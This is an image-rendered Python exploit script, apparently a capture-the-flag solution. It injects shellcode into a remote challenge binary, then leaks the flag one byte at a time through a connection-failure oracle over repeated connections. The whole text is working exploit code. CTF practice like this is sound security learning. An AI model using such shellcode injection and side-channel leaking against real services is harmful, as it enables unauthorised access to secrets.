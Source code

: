 ```python
        b"\x90\x90\x90\x90"
        + asm(f"mov rbp, {flag_addr}")
        + nasm(shellcode)
        + b"\xff\xff\xff\xff"
    )

    sleep(0.2)
    io.send(chr(cnt).encode("latin-1"))

    flag_byte = ""
    characters = [
        "A",
        "B",
        "C",
        "D",
        "E",
        "F",
        "G",
        "H",
        "I",
        "J",
        "K",
        "L",
        "M",
        "N",
        "O",
        "P",
        "Q",
        "R",
        "S",
        "T",
        "U",
        "V",
        "W",
        "X",
        "Y",
        "Z",
        "{",
        "}",
        "_",
    ]
    pool = cycle(characters)
    for oracle_byte in pool:
        try:
            sleep(0.3)
            io.send(oracle_byte.encode("latin-1"))
        except:
            flag_byte = chr(
                ord(oracle_byte) - 4
            )  # - {2} this value changes in local and remote.
            FLAG += flag_byte
            return flag_byte


while True:
    for i in range(0, 100):
        # io = process("./chall")
        io = remote(host, port)
        exploit(i)
        print(FLAG)
```
